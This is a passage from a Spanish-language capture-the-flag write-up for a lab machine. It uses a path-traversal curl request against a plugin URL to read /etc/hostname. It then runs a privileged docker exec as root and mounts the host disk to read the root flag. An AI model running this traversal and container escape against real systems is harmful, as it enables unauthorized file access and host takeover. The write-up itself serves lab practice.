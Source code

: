 - A pesar de que con **curl** pudimos verlo, lo más probable es que ese usuario esté en un contenedor, podemos ver el nombre del contenedor mediante el **LFI** .

```bash
➜  ~ curl --path-as-is http://10.10.86.89:3000/public/plugins/alertlist/../../../../../../../../etc/hostname
e6ff5b1cbc85
➜  ~
```

- Ahora teniendo el nombre del contenedor podemos ejecutar una **bash** dentro.

```bash
boris@ip-10-10-10-11:~$ sudo docker exec -it --privileged -u root e6ff5b1cbc85 bash
bash-5.1# whoami
root
bash-5.1#
```

- Ahora vemos los discos.

```bash
bash-5.1# fdisk -l
Disk /dev/xvda: 8192 MB, 8589934592 bytes, 16777216 sectors
6367 cylinders, 85 heads, 31 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Device   Boot StartCHS    EndCHS        StartLBA     EndLBA    Sectors  Size Id Type
/dev/xvda1 *  0,32,33     20,84,31          2048   16777182   16775135 8190M 83 Linux
bash-5.1#
```

- Y ahora creamos una montura para poder ver la flag.

```bash
bash-5.1# mkdir -p /mnt/pwned
bash-5.1# mount /dev/xvda1 /mnt/pwned
bash-5.1# cd /mnt/pwned/root
bash-5.1#
```

## Root flag

- Ahora podemos ver la flag.

```
bash-5.1# cat root.txt
VL{***************************}
bash-5.1#
```
